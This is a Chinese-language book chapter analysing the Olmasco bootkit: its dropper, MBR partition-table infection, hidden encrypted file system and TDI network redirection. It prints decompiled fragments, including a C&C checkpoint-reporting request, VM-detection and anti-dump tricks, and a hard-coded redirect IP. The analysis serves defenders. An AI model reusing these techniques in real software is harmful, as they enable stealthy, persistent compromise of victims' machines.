




## **10

MBR 和 VBR 感染技术的演变：OLMASCO**


为应对第一波引导程序的攻击，安全开发人员开始着手开发专门检查 MBR 代码是否被修改的杀毒产品，迫使攻击者寻找其他感染技术。2011 年初，TDL4 家族演变成了新的恶意软件，采用了以前从未见过的感染手段。其中一个例子是 Olmasco，它在很大程度上基于 TDL4，但有一个关键区别：Olmasco 感染 MBR 的*分区表*，而不是 MBR 代码，使其能够感染系统并绕过内核模式代码签名策略，同时避开越来越智能的反恶意软件的检测。

Olmasco 也是首个已知的引导程序，它结合了 MBR 和 VBR 感染方法，尽管它仍然主要针对 MBR，这使得它与感染 VBR 的引导程序（例如 Rovnix 和 Carberp，稍后我们将在第十一章讨论）有所不同。

与其前辈 TDL 一样，Olmasco 使用 PPI 商业模式进行分发，这一模式在我们讨论第一章的 TDL3 Rootkit 时已经熟悉。PPI 模式类似于用于分发浏览器工具栏（如谷歌工具栏）的方案，并使用嵌入的唯一标识符（UID）允许分发商追踪安装次数，从而获得收入。分发商的信息嵌入到可执行文件中，特殊服务器计算安装次数。分发商根据安装次数支付固定金额的报酬。^(1)

在这一章中，我们将关注 Olmasco 的三个主要方面：感染系统的投放程序；感染 MBR 分区表的引导程序组件；以及挂钩硬盘驱动程序、传送有效载荷、利用隐藏文件系统并实现网络通信重定向功能的 Rootkit 部分。

### **投放程序**

投放程序是一种特殊的恶意应用程序，充当其他恶意软件的载体，该恶意软件以加密有效载荷的形式存储。投放程序到达受害者计算机后，会解压并执行有效载荷——在我们这个例子中，就是 Olmasco 感染程序——进而安装并执行引导程序组件。投放程序通常还会实现一系列反调试和反仿真检查，这些检查在有效载荷解压前执行，以规避自动化恶意软件分析系统，稍后我们将看到这一点。

**投放程序与下载器**

另一种常见的恶意应用程序类型是*下载器*。顾名思义，下载器从远程服务器下载有效载荷，而不是通过携带有效载荷的方式使用投放程序方法。实际上，*投放程序*这个术语更为常见，通常被用作下载器的同义词。

#### ***投放程序资源***

投放器具有模块化结构，并将大部分引导工具的恶意组件存储在其 *资源* 部分。每个组件（例如标识符值、引导加载程序组件或有效载荷）都存储在一个单独的资源条目中，并使用 RC4 加密（更多详情请参见 “RC4 流密码” 第 136 页）。资源条目的大小用作解密密钥。表 10-1 列出了投放器资源部分中的引导工具组件。

**表 10-1：** Olmasco 投放器中的引导工具组件

| **资源名称** | **描述** |
| --- | --- |
| *affid* | 唯一的联盟标识符。 |
| *subid* | 联盟的子标识符。它与联盟 ID 关联，一个联盟可以有多个子标识符。 |
| *boot* | 恶意引导加载程序的第一部分。它在启动过程开始时执行。 |
| *cmd32* | 适用于 32 位进程的用户模式有效载荷。 |
| *cmd64* | 适用于 64 位进程的用户模式有效载荷。 |
| *dbg32* | 恶意引导加载程序组件的第三部分（伪 *kdcom.dll* 库），适用于 32 位系统。 |
| *dbg64* | 恶意引导加载程序组件的第三部分（伪 *kdcom.dll* 库），适用于 64 位系统。 |
| *drv32* | 适用于 32 位系统的恶意内核模式驱动程序。 |
| *drv64* | 适用于 64 位系统的恶意内核模式驱动程序。 |
| *ldr32* | 恶意引导加载程序的第二部分。它由 32 位系统上的 *boot* 组件执行。 |
| *ldr64* | 恶意引导加载程序的第二部分。它由 64 位系统上的 *boot* 组件执行。 |
| *main* | 未知。 |
| *build* | 投放器的构建号。 |
| *name* | 投放器的名称。 |
| *vbr* | 恶意 Olmasco 分区在硬盘上的 VBR。 |

*affid* 和 *subid* 标识符在 PPI 方案中用于计算安装次数。参数 *affid* 是联盟的唯一标识符（即分发者）。参数 *subid* 是区分不同来源安装的子标识符。例如，如果 PPI 计划的联盟从两个不同的文件托管服务分发恶意软件，那么来自这些来源的恶意软件将具有相同的 *affid* 但不同的 *subid*。这样，联盟可以比较每个 *subid* 的安装数量，从而确定哪个来源更有利可图。

我们将很快讨论引导工具组件 *boot*、*vbr*、*dbg32*、*dbg64*、*drv32*、*drv64*、*ldr32* 和 *ldr64*，但 *main*、*build* 和 *name* 仅在表中描述。

**RC4 流密码**

RC4 是一种由 RSA Security 的 Ron Rivest 于 1987 年开发的流密码。RC4 使用可变长度的密钥，并生成用于加密明文的伪随机字节流。由于其紧凑和简单的实现方式，这种加密算法在恶意软件开发者中越来越受欢迎。因此，许多 rootkit 和 bootkit 都使用 RC4 来保护有效负载、与命令与控制（C&C）服务器的通信以及配置文件信息。

#### ***未来开发的追踪功能***

Olmasco dropper 引入了错误报告功能，以帮助开发者进行进一步开发。在成功执行每个感染步骤后（即 bootkit 安装算法中的每个步骤），bootkit 会向 C&C 服务器报告一个“检查点”。这意味着如果安装失败，开发者可以准确地确定失败发生在哪个步骤。如果发生错误，bootkit 会发送一条额外的综合错误消息，提供足够的信息以便开发者确定故障源。

追踪信息通过 HTTP 的`GET`方法发送到一个 C&C 服务器，其域名硬编码在 dropper 中。清单 10-1 显示了通过 Hex-Rays 反编译的 Olmasco 感染程序，该程序生成一个查询字符串来报告感染的状态信息。

```
HINTERNET __cdecl ReportCheckPoint(int check_point_code){

  char query_string[0x104];

  memset(&query_string, 0, 0x104u);

➊ _snprintf(

    &query_string,

    0x104u,

    "/testadd.php?aid=%s&sid=%s&bid=%s&mode=%s%u%s%s",

    *FILE_affid,

    *FILE_subid,

    &bid,

    "check_point",

    check_point_code,

    &bid,

    &bid);

➋ return SendDataToServer(0, &query_string, "GET", 0, 0);

}
```

*清单 10-1：向 C&C 服务器发送追踪信息*

在➊，恶意软件执行一个`_snprintf`例程，以生成包含 dropper 参数的查询字符串。在➋，它发送请求。`check_point_code`的值对应于安装算法中发送消息的步骤的序号。例如，1 对应算法中的第一步，2 对应第二步，依此类推。在成功安装的最后，C&C 服务器会接收到类似 1, 2, 3, 4, . . . *N*的数字序列，其中*N*是最后一步。如果完整安装失败，C&C 服务器将接收到序列 1, 2, 3, . . . *P*，其中*P*是算法失败的步骤。这使得恶意软件开发者能够识别并修复感染算法中的故障步骤。

#### ***反调试和反仿真技巧***

Olmasco 还引入了一些新的技巧，用于绕过沙箱分析以及保护免受内存转储攻击。dropper 使用自定义打包工具进行压缩，执行后会解压缩原始的未压缩 dropper，并清除其 PE 头部中的某些字段，例如原始入口点地址和节表。图 10-1 显示了数据删除前后 PE 头部的情况。左侧的 PE 头部部分被破坏，右侧未被修改。



*图 10-1：擦除 PE 头部数据*

这个技巧能有效防止在调试会话或自动解包过程中进行内存转储。删除有效的 PE 头使得很难确定 PE 文件的几何结构并正确地进行转储，因为转储软件无法找到代码和数据部分的确切位置。没有这些信息，转储软件无法正确重建 PE 镜像并会失败。

Olmasco 还包括针对基于虚拟机的机器人跟踪器的对策。在安装过程中，Olmasco 通过*Windows 管理工具（WMI）* IWbemServices 接口检测投放器是否在虚拟环境中运行，并将此信息发送到 C&C 服务器。如果检测到虚拟环境，投放器会停止执行并从文件系统中删除自己（而不是解包恶意二进制文件并暴露给分析工具）。

**注意**

*Microsoft WMI 是 Windows 平台上提供的一组接口，用于数据和操作管理。其主要用途之一是自动化远程计算机的管理任务。从恶意软件的角度来看，WMI 提供了一套丰富的*组件对象模型（COM）*对象，恶意软件可以利用这些对象收集有关系统的全面信息，如平台信息、运行中的进程和使用中的安全软件。*

恶意软件还使用 WMI 来收集有关目标系统的以下信息：

**计算机** 系统名称、用户名、域名、用户工作组、处理器数量等

**处理器** 核心数、处理器名称、数据宽度和逻辑处理器数量

**SCSI 控制器** 名称和制造商

**IDE 控制器** 名称和制造商

**磁盘驱动器** 名称、型号和接口类型

**BIOS** 名称和制造商

**操作系统** 主要和次要版本、服务包号等

恶意软件操作者可以利用这些信息检查被感染系统的硬件配置，并确定其是否对他们有用。例如，他们可以使用 BIOS 名称和制造商来检测虚拟环境（如 VMware、VirtualBox、Bochs 或 QEMU），这些虚拟环境常用于自动化恶意软件分析环境，因此对恶意软件操作者没有兴趣。

另一方面，它们可以使用系统名称和域名来识别拥有被感染机器的公司。利用这些信息，它们可以部署专门针对该公司的定制负载。

### **Bootkit 功能**

一旦沙箱检查完成，投放器会继续将 bootkit 组件安装到系统中。Olmasco 的 bootkit 组件已从 TDL4 bootkit 进行了修改（如第七章所讨论的，TDL4 会覆盖 MBR 并在可引导硬盘的末尾保留空间，用于存储其恶意组件），尽管 Olmasco 采用了一个相当不同的方式来感染系统。

#### ***Bootkit 感染技术***

首先，Olmasco 会在可启动硬盘的末尾创建一个分区。Windows 硬盘上的分区表总是包含一些未分配的空间，并且通常这些空间足以容纳启动工具的组件——有时甚至更多。恶意软件通过占用这些未分配的空间并修改原始合法 MBR 的空闲分区表项，将其指向新创建的恶意分区，从而创建一个恶意分区。奇怪的是，这个新创建的恶意分区的大小被限制为 50GB，无论未分配空间有多大。一种可能的解释是，限制分区大小是为了避免通过占用所有可用的未分配空间引起用户的注意。

如我们在 第五章 中讨论的那样，MBR 分区表位于 MBR 起始处的偏移 0x1BE 位置，由四个 16 字节的条目组成，每个条目描述硬盘上的一个对应分区。硬盘上最多可以有四个主分区，而且只能标记一个分区为活动分区，因此启动工具只能从一个分区启动。恶意软件将分区表中第一个空白条目覆盖为恶意分区的参数，并将其标记为活动分区，初始化新创建分区的 VBR，如 列表 10-2 所示。

```
First partition                     00212000    0C13DF07    00000800    00032000

Second partition (OS)               0C14DF00    FFFFFE07    00032800    00FCC800

Third partition (Olmasco), Active   FFFFFE80    FFFFFE1B  ➊00FFF000  ➋00000FB0

Fourth partition (empty)            00000000    00000000    00000000    00000000
```

*列表 10-2：Olmasco 感染后的分区表*

在这里，你可以看到恶意分区的起始地址 ➊ 和大小（以扇区为单位） ➋。如果 Olmasco 启动工具发现分区表中没有空闲项，它会向 C&C 服务器报告，并终止操作。图 10-2 显示了系统感染 Olmasco 后分区表的变化。



*图 10-2：Olmasco 感染前后的硬盘布局*

感染后，之前为空的分区表项会连接到 Olmasco 分区，并成为活动分区项。你可以看到，MBR 代码本身保持不变，唯一受到影响的是 MBR 分区表。为了增加隐蔽性，Olmasco 分区表的第一个扇区也与合法的 VBR 非常相似，这意味着安全软件可能会误认为 Olmasco 的分区是硬盘上的合法分区。

#### ***感染系统的启动过程***

一旦系统感染了 Olmasco，它将按相应方式启动。感染机器的启动过程如 图 10-3 所示。



*图 10-3：Olmasco 感染系统的启动过程*

当被感染的机器下次启动时，Olmasco 分区的恶意 VBR ➋ 获得控制权，在 MBR 代码执行 ➊ 之后，操作系统引导加载程序组件加载之前。这样，恶意软件可以在操作系统之前获得控制。当恶意 VBR 获得控制时，它从 Olmasco 隐藏文件系统的根目录读取 *boot* 文件 ➌ 并将控制权转交给它。这个 *boot* 组件与 TDL4 早期版本中的 *ldr16* 模块作用相同：它钩住 BIOS 中断 13h 处理程序 ➍ 来修补引导配置数据（BCD） ➎，并加载原来活动分区的 VBR。

从概念上讲，Olmasco 和 TDL4 的引导过程非常相似，组件基本相同，只是 Olmasco 对隐藏文件系统组件使用了不同的名称，如 表 10-2 所列。TDL4 的引导过程在 第七章 中有详细介绍。

**表 10-2：** Olmasco 与 TDL4 的引导组件对比

| **Olmasco** |   | **TDL4** |
| --- | --- | --- |
| *boot* |   | *ldr16* |
| *dbg32*, *dbg64* |   | *ldr32*, *ldr64* |

### **Rootkit 功能**

一旦加载了恶意的内核模式驱动程序（➏，见 图 10-4），引导程序的工作就完成了，这个驱动程序实现了 Olmasco 的 rootkit 功能。Olmasco 的 rootkit 部分负责以下内容：

+   钩住硬盘设备对象

+   将有效载荷从隐藏文件系统注入到进程中

+   维护隐藏文件系统

+   实现传输驱动接口（TDI）以重定向网络通信

#### ***钩住硬盘设备对象并注入有效载荷***

列表中的前两个元素本质上与 TDL4 中相同：Olmasco 使用相同的技术来钩住硬盘设备对象，并将有效载荷从隐藏文件系统注入到进程中。钩住硬盘设备对象有助于防止安全软件恢复原始 MBR 的内容，从而使 Olmasco 在重启后仍能保持存在。Olmasco 拦截所有对硬盘的读写请求，并阻止那些试图修改 MBR 或读取隐藏文件系统内容的请求。

#### ***维护隐藏文件系统***

隐藏文件系统是复杂威胁（如 rootkit 和 bootkit）中的一个重要特性，因为它提供了一个隐秘的通道，用于在受害者计算机上存储信息。传统的恶意软件依赖操作系统文件系统（NTFS、FAT32、extX 等）来存储其组件，但这使得它容易受到取证分析或安全软件的检测。为了解决这个问题，一些高级恶意软件实现了自己的自定义文件系统，并将其存储在硬盘的未分配区域中。在绝大多数现代配置中，硬盘的末尾至少有几百兆字节的未分配空间，足以存储恶意组件和配置信息。通过这种方式，存储在隐藏文件系统中的文件无法通过常规的 API（如 Win32 API `CreateFileX`、`ReadFileX` 等）访问，但恶意软件仍然能够通过特殊接口与隐藏存储进行通信并访问其中存储的数据。恶意软件通常还会加密隐藏文件系统的内容，以进一步阻碍取证分析。

图 10-4 显示了一个隐藏文件系统的示例。可以看到，它位于操作系统文件系统之后，并且不会干扰正常的操作系统操作。



*图 10-4：硬盘上的隐藏文件系统*

Olmasco 存储载荷模块在隐藏文件系统中的方法几乎完全继承自 TDL4：它在硬盘的末尾保留空间来存放其文件系统，文件系统的内容通过低级挂钩和 RC4 流密码进行保护。然而，Olmasco 的开发人员扩展了隐藏文件系统的设计和实现，并添加了可以支持文件和文件夹层次结构、验证文件完整性以检查其是否损坏、以及更好地管理内部文件系统结构的增强功能。

##### **文件夹层次结构支持**

与 TDL4 的隐藏文件系统只能存储文件不同，Olmasco 的隐藏文件系统可以存储文件和目录。根目录用通常的反斜杠（`\`）表示。例如，清单 10-3 显示了 Olmasco 隐藏分区中 VBR 的片段，该片段通过 `\boot` ➊ 从根目录加载名为 *boot* 的文件。

```
seg000:01F4                 hlt

seg000:01F4 sub_195         endp

seg000:01F5                 jmp     short loc_1F4

seg000:01F7 aBoot         ➊ db '\boot',0

seg000:01FD                 db    0
```

*清单 10-3：Olmasco 分区的 VBR 片段*

##### **完整性验证**

在从文件系统读取文件时，Olmasco 会检查内容是否损坏。这个功能在 TDL4 中并不明显。Olmasco 在每个文件的数据结构中引入了一个额外的字段，用于存储文件内容的 CRC32 校验和值。如果 Olmasco 检测到损坏，它会从文件系统中移除对应的条目，并释放那些被占用的扇区，如清单 10-4 所示。

```
unsigned int stdcall RkFsLoadFile(FS_DATA_STRUCT *a1, PDEVICE_OBJECT

  DeviceObject, const char *FileName, FS_LIST_ENTRY_STRUCT *FileEntry)

{

  unsigned int result;

  // locate file in the root dir

➊ result = RkFsLocateFileInDir(&a1->root_dir, FileName, FileEntry);

  if ( (result & 0xC0000000) != 0xC0000000 ) {

    // read the file from the hard drive

  ➋ result = RkFsReadFile(a1, DeviceObject, FileEntry);

    if ( (result & 0xC0000000) != 0xC0000000 ) {

      // verify file integrity

    ➌ result = RkFsCheckFileCRC32(FileEntry);

      if ( result == 0xC000003F ) {

        // free occupied sectors

      ➍ MarkBadSectorsAsFree(a1, FileEntry->pFileEntry);

        // remove corresponding entry

        RkFsRemoveFile(a1, &a1->root_dir, FileEntry->pFileEntry->FileName);

        RkFsFreeFileBuffer(FileEntry);

        // update directory

        RkFsStoreFile(a1, DeviceObject, &a1->root_dir);

        RkFsStoreFile(a1, DeviceObject, &a1->bad_file);

        // update bitmap of occupied sectors

        RkFsStoreFile(a1, DeviceObject, &a1->bitmap_file);

        // update root directory

        RkFsStoreFile(a1, DeviceObject, &a1->root);

        result = 0xC000003F;

      }

    }

  }

  return result;

}
```

*清单 10-4：从 Olmasco 的隐藏文件系统读取文件*

`RkFsLocateFileInDir` ➊ 例程定位目录中的文件，读取其内容 ➋，然后计算文件的 CRC32 校验和，并与文件系统中存储的值进行比较 ➌。如果值不匹配，例程将删除这些文件，并释放由损坏文件占用的扇区 ➍。这使得隐藏的文件系统更加健壮，根工具包更加稳定，减少了加载和执行损坏文件的可能性。

##### **文件系统管理**

Olmasco 实现的文件系统比 TDL4 实现的文件系统更加成熟，因此在空闲空间使用和数据结构操作方面需要更高效的管理。引入了两个特殊文件，*$bad* 和 *$bitmap*，来支持文件系统内容的管理。

*$bitmap* 文件包含隐藏文件系统中空闲扇区的位图。该位图是一个位数组，每个位对应文件系统中的一个扇区。当某个位被设置为 `1` 时，表示对应的扇区已被占用。使用 *$bitmap* 有助于在文件系统中找到存储新文件的位置。

*$bad* 文件是一个位图，用于跟踪包含损坏文件的扇区。由于 Olmasco 劫持了硬盘末尾的未分区空间来存储隐藏的文件系统，因此有可能其他软件会向这个区域写入数据，从而损坏 Olmasco 文件的内容。恶意软件将在 *$bad* 文件中标记这些扇区，以防止将来再次使用它们。

这两个系统文件与根目录处于同一层级，无法被负载访问，仅供系统使用。有趣的是，在 NTFS 中也有同名的文件。这意味着 Olmasco 可能还会利用这些文件来欺骗用户，让他们认为恶意分区是一个合法的 NTFS 卷。

#### ***实现传输驱动程序接口以重定向网络通信***

Olmasco 启动工具包的隐藏文件系统有两个模块，`tdi32` 和 `tdi64`，它们与 *传输驱动程序接口 (TDI)* 协同工作。TDI 是一种内核模式的网络接口，为传输协议（如 TCP/IP）和 TDI 客户端（如套接字）提供抽象层。它位于所有传输协议栈的上层边缘。TDI 过滤器允许恶意软件在网络通信到达传输协议之前拦截它。

*tdi32*/*tdi64* 驱动程序通过未文档化的 API 技术 `IoCreateDriver(L"\\Driver\\usbprt", tdi32EntryPoint)` 被主根工具包驱动程序 *drv32*/*drv64* 加载，其中 `tdi32EntryPoint` 对应恶意 TDI 驱动程序的入口点。列表 10-5 显示了将 TDI 附加到这些设备对象的例程。

```
NTSTATUS ___stdcall_ AttachToNetworkDevices(PDRIVER_OBJECT DriverObject,

                                   PUNICODE_STRING a2)

{

  NTSTATUS result;

  PDEVICE_OBJECT AttachedToTcp;

  PDEVICE_OBJECT AttachedToUdp;

  PDEVICE_OBJECT AttachedToIp;

  PDEVICE_OBJECT AttachedToRawIp;

  result = AttachToDevice(DriverObject, L"\\Device\\CFPTcpFlt",

                           ➊ L"\\Device\\Tcp", 0xF8267A6F, &AttachedToTcp);

  if ( result >= 0 ) {

    result = AttachToDevice(DriverObject, L"\\Device\\CFPUdpFlt",

                           ➋ L"\\Device\\Udp", 0xF8267AF0, &AttachedToUdp);

    if ( result >= 0 ) {

      AttachToDevice(DriverObject, L"\\Device\\CFPIpFlt",

                           ➌ L"\\Device\\Ip", 0xF8267A16, &AttachedToIp);

      AttachToDevice(DriverObject, L"\\Device\\CFPRawFlt",

                           ➍ L"\\Device\\RawIp", 0xF8267A7E, &AttachedToRawIp);

      result = 0;

    }

  }

  return result;

}
```

*列表 10-5：将 TDI 驱动程序附加到网络设备*

恶意 TDI 驱动程序随后附加到以下网络设备对象列表：

***\Device\Tcp*** 提供对 TCP 协议的访问 ➊

***\Device\Udp*** 提供对 UDP 协议的访问 ➋

***\Device\IP*** 提供对 IP 协议的访问在 ➌

***\Device\RawIp*** 提供对原始 IP 协议的访问（即原始套接字）在 ➍

恶意 TDI 驱动程序的主要功能是监视`TDI_CONNECT`请求。如果通过某个钩住的协议尝试连接到 IP 地址 1.1.1.1，恶意软件会将其更改为地址 69.175.67.172，并将端口号设置为 0x5000。这样做的原因之一是绕过在 TDI 层之上的网络安全软件。在这种情况下，恶意组件可能尝试与 IP 地址 1.1.1.1 建立连接，而这个地址本身并不具备恶意性，不会引起安全软件的注意，并且其处理位置在 TDI 层之上。此时，恶意`tdi`组件将目标地址的原始值替换为 69.175.67.172，连接被重定向到另一个主机。

### **结论**

在本章中，我们探讨了 Olmasco 引导病毒如何利用 MBR 分区表作为另一个引导病毒感染途径。Olmasco 是臭名昭著的 TDL4 引导病毒的后代，继承了它的大部分功能，并且增加了一些新的技巧；它通过修改 MBR 分区表并使用伪造的 VBR，使其比前任更加隐蔽。在接下来的章节中，我们将考虑另外两个采用复杂感染技术，针对 VBR 的引导病毒：Rovnix 和 Gapz。
